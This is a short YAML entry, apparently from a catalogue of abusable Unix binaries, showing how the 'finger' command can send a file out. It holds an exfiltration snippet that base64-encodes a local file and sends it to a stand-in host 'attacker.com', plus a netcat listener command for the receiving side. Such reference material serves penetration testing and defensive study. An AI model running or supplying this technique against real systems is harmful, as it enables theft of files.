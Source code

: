 ```yaml
---
description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  upload:
    - description: Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        LFILE=file_to_send
        finger "$(base64 $LFILE)@$RHOST"
---
```

